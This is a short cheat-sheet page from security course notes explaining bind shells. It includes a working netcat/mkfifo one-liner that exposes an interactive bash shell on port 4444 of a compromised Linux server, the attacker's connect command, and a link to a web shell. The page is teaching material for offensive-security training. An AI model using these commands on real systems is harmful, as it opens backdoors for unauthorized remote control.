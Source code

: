 # Bind shell

[![shells_and_payloads](../../../_badges/htb/shells_and_payloads.svg)](https://academy.hackthebox.com/course/preview/shells--payloads)

<div class="row row-cols-lg-2"><div>

A bind shell is similar to a [reverse shell](reverse_shell.md) aside from the fact that the server, i.g. the one waiting for clients, is now the target, and the hacker is the one connecting to it.

It's a backdoor, as anyone connecting to it can run commands, and the shell will keep running even if the client leaves.

➡️ See also: [b374k](https://github.com/b374k/b374k) that may be used by sysadmins.
</div><div>

* For instance, on a Linux compromised server:

```ps
$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l YOUR_IP 4444 > /tmp/f
```

* Then, the hacker can connect to it using:

```ps
$ nc -nv TARGET_SERVER_IP 4444
```

</div></div>
